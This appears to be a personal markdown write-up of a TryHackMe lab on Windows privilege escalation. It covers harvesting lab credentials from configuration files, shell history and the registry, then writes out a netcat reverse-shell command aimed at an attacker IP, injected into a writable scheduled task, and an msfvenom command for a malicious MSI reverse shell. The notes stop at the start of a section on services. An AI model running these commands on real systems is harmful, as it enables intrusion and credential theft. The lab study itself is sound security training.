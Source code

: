 # TRYHACKME : Windows Privilege Escalation

> Gaining access to different accounts can be as simple as finding credentials in text files or spreadsheets left unsecured by some careless user, but that won't always be the case. Depending on the situation, we might need to abuse some of the following weaknesses:
> - Misconfigurations on Windows services or scheduled tasks
> - Excessive privileges assigned to our account
> - Vulnerable software
> - Missing Windows security patches

## Windows User
| User Type | Privileges |
|---|---|
| Administrator | -> have the most privileges -> can change any system configuration parameter & access any file in the system |
| Standard Users | -> can access the computer but only perform limited tasks -> these users can not make permanent or essential changes to the system and are limited to their files |

| Special Built-in Accounts | |
|---|---|
| SYSTEM / LocalSystem | -> account used by the operating system to perform internal tasks -> has full access to all files and resources available on the host -> has higher privileges than administrators |
| Local Service | -> default account -> minimum privileges -> uses anonymous connections over the network |
| Network Service | -> default account -> minimum privileges -> use the computer credentials to authenticate through the network |

<details markdown=1>
<summary><h2> 1. Harvesting Passwords from Usual Spots </h2></summary>
  
> This task will present some known places to look for passwords on a Windows system.
>
> Start the target machine. If using 
>
>> Username: `thm-unpriv` Password: `Password321`
>
> # A. Unattended Windows Installations
> When installing Windows on a large number of hosts, administrators may use Windows Deployment Services, which allows for a single operating system image to be deployed to several hosts through the network.
> 
>> These kinds of installations are referred to as unattended installations as they don't require user interaction.
>
> Such installations require the use of an administrator account to perform the initial setup, which might end up being stored in the machine in the following locations:
>```
>    C:\Unattend.xml
>    C:\Windows\Panther\Unattend.xml
>    C:\Windows\Panther\Unattend\Unattend.xml
>    C:\Windows\system32\sysprep.inf
>    C:\Windows\system32\sysprep\sysprep.xml
> ```
>
> In these type of files, you might encounter credentials such as:
> ```
>  <Credentials>
>     <Username>Administrator</Username>
>     <Domain>thm.local</Domain>
>     <Password>MyPassword123</Password>
>  </Credentials>
> ```
> ## TARGET MACHINE:
>> ```
>> more C:\Unattend.xml => (cannot access file / file not found)
>> more C:\Windows\Panther\Unattend.xml => (cannot access file / file not found)
>> dir C:\Windows\Panther\Unattend => (empty folder)
>> more C:\Windows\system32\sysprep.inf => (cannot access file / file not found)
>> dir C:\Windows\system32\sysprep
>>       <DIR> ActionFiles
>>       <DIR> en-us
>>       <DIR> Panther
>>       sysprep.exe
>> more C:\Windows\system32\sysprep\sysprep.xml => (cannot access file / file not found)
>> ```
>> 
> 
> # B. Powershell History
> All commands run using Powershell gets stored into a file that keeps a memory of past commands.
>
>> It can later be retrieved by using the following command from a `cmd.exe` prompt (it won't work in Powershell; in order to read the file from Powershell, replace `%userprofile%` into `$Env:userprofile`)
>
> ```
> type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
> ```
>
> ## TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
>> ls
>> whoami
>> whoami /priv
>> whoami /group
>> whoami /groups
>> cmdkey /?
>> cmdkey /add:thmdc.local /user:julia.jones /pass:ZuperCkretPa5z        // WAHH CREDENTIALS!!!
>> cmdkey /list
>> cmdkey /delete:thmdc.local
>> cmdkey /list
>> runas /?
>> ```
>
> # C. Saved Windows Credentials
> Windows allows us to use other users' credentials.
>
> The command below will list saved credentials:
> ```
> cmdkey /list
> ```
>
> Regardless of not seeing actual passwords, credentials alone are worth trying. Use them with the `runas` command and the `/savecrad` option:
> ```
> runas /savecred /user:admin cmd.exe
> ```
>
> ## TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>cmdkey /list
>>
>> Currently stored credentials:
>>
>>     Target: Domain:interactive=WPRIVESC1\mike.katz
>>     Type: Domain Password
>>     User: WPRIVESC1\mike.katz
>> 
>> C:\Users\thm-unpriv>runas /savecred /user:mike.katz cmd.exe
>> Attempting to start cmd.exe as user "WPRIVESC1\mike.katz" ...
>>
>> (opens another cmd terminal)
>>
>> C:\Windows\system32>whoami
>> wprivesc1\mike.katz
>> C:\Windows\system32>more C:\Users\mike.katz\Desktop\flag.txt
>> // FLAG ANSWER
>> ```
>
> # D. IIS Configuration
> Internet Information Services (IIS) is the default web server on Windows installations.
>
>> IIS websites' configuration is stored in a file called `web.config` and can store passwords for databases or configured authentication mechanisms.
>
> Depending on the installed version, `web.config` can be found on ff locations:
>``` 
>    C:\inetpub\wwwroot\web.config
>    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
>```
> 
> To quickly find database connection strings on the file:
> ```
> type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
> ```
> ## TARGET MACHINE
>> ```
>> C:\Users\thm-unpriv> more C:\inetpub\wwwroot\web.config => (cannot access file / file not found)
>> C:\Users\thm-unpriv> type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
>>                 <add connectionStringName="LocalSqlServer" maxEventDetailsLength="1073741823" buffer="false"
>> bufferMode="Notification" name="SqlWebEventProvider"
>> type="System.Web.Management.SqlWebEventProvider,System.Web,Version=4.0.0.0,Culture=neutral,PublicKeyToken=b03f5f7f11d50a3a" />
>>                     <add connectionStringName="LocalSqlServer" name="AspNetSqlPersonalizationProvider"
>> type="System.Web.UI.WebControls.WebParts.SqlPersonalizationProvider, System.Web, Version=4.0.0.0, Culture=neutral,
>> PublicKeyToken=b03f5f7f11d50a3a" />
>>     <connectionStrings>
>>         <add connectionString="Server=thm-db.local;Database=thm-sekure;User ID=db_admin;Password=098n0x35skjD3" name="THM-DB" />  // WAHH CREDENTIALS !!!
>> </connectionStrings>
>> ```
>
> # E. Retrieve Credentials from Software: PuTTY
> **PuTTY** is an SSH client commonly found on Windows systems. It is created by Simon Tatham (his name is part of the path, not the username to retrieve password).
>
> Users can store sessions (IP, user, and other configurations) instead of having to specify a connection's parameters every single time. While PuTTY won't allow users to store their SSH password, it will store proxy configurations that include cleartext authentication credentials.
>
> To retrieve the stored proxy credentials, you can search under the following registry key for ProxyPassword w/ the ff command:
> ```
> reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
> ```
> Stored proxy username should also be visible after running the command above.
>
> # TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
>> HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\My%20ssh%20server
>> 
>>     ProxyExcludeList    REG_SZ
>>     ProxyDNS    REG_DWORD    0x1
>>     ProxyLocalhost    REG_DWORD    0x0
>>     ProxyMethod    REG_DWORD    0x0
>>     ProxyHost    REG_SZ    proxy
>>     ProxyPort    REG_DWORD    0x50
>>     ProxyUsername    REG_SZ    thom.smith
>>     ProxyPassword    REG_SZ    CoolPass2021    // WAHH CREDENTIALS !!!
>>     ProxyTelnetCommand    REG_SZ    connect %host %port\n
>>     ProxyLogToTerm    REG_DWORD    0x1
>>
>> End of search: 10 match(es) found.
>> ```
>>
</details>

<details>
<summary><h2> 2. Other Quick Wins </h2></summary>
  
> Privilege escalation is not always a challenge.
>
> Some misconfigurations can allow you to obtain higher privileged user access and, in some cases, even administrator access.
>
> # A. Scheduled Tasks
> Some scheduled task might either lost its binary or it's using a binary you can modify.
>
> Scheduled tasks can be listed from the command line using the `schtasks` command without any options.
>
> To retrieve more detailed information about any of the services you can type
> ```
> C:\> schtasks /query /tn vulntask /fo list /v
> Folder: \
> HostName:                             THM-PC1
> TaskName:                             \vulntask
> Task To Run:                          C:\tasks\schtask.bat
> Run As User:                          taskusr1
> ```
> ### Two Important Parameters:
>> - **Task to Run** = indicates what gets executed by the scheduled task
>> - **Run As User** = shows the user that will be used to execute the task
>
> If modifiable, we can control what gets executed by the taskuser1, resulting in a simple privilege escalation.
> 
> Use `icacls` to check permissions on the executable:
> ```
> C:\> icacls c:\tasks\schtask.bat
> c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
>                     BUILTIN\Administrators:(I)(F)
>                     BUILTIN\Users:(I)(F)
> ```
> The **BUILTIN/Users** group has full access (F) over the task's binary. That means we can modify the .bat file and insert any payloads we like.
>
> ## ATTACKER MACHINE:
>> ```
>> root@ip-10-10-107-180:~# nc -lvp 4444
>> ```
>
> ## TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>echo c:\tools\nc64.exe -e cmd.exe <ATTACKER-IP> 4444 > C:\tasks\schtask.bat
>>
>> C:\Users\thm-unpriv>schtasks /run /tn vulntask
>> SUCCESS: Attempted to run the scheduled task "vulntask".
>> ```
>
> ## ATTACKER MACHINE:
>> ```
>> root@ip-10-10-107-180:~# nc -lvp 4444
>> Listening on 0.0.0.0 4444
>> Connection received on 10.10.89.191 49907
>> Microsoft Windows [Version 10.0.17763.1821]
>> (c) 2018 Microsoft Corporation. All rights reserved.
>>
>> C:\Windows\system32>whoami
>> wprivesc1\taskusr1
>>
>> C:\Windows\system32>more C:\Users\taskuser1\Desktop\flag.txt
>> // RETRIEVE FLAG
>> ```
>
> # B. AlwaysInstallElevated
> Windows installer files (.msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it.
>
> However, these can be configured to run with higher privileges from any user account (even unprivileged ones). This could potentially allow us to generate a malicious MSI file that would run with admin privileges.
>
>> **NOTE:** The AlwaysInstallElevated method won't work on this room's machine and it's included as information only.
> 
> This method required two registry values to be set. Otherwise, exploitation will not be possible. You can query these from the command line using the commands below:
>> ```
>> C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
>> C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
>> ```
>
> After setting the two, you can generate a malicious .msi file using `msfvenom`, as seen below:
> ```
> msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
> ```
> As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell:
> ```
> C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
> ```
  
</details>

<details> 
<summary><h2> 3. Abusing Service Misconfigurations </h2></summary>

> # Windows Services
> Window servies are managed by the **Service Control Manager (SCM)**. Its in charge of managing the state of service as needed, checking the current status of any given service and generally providing a way to configure services.
>
> 

</details>


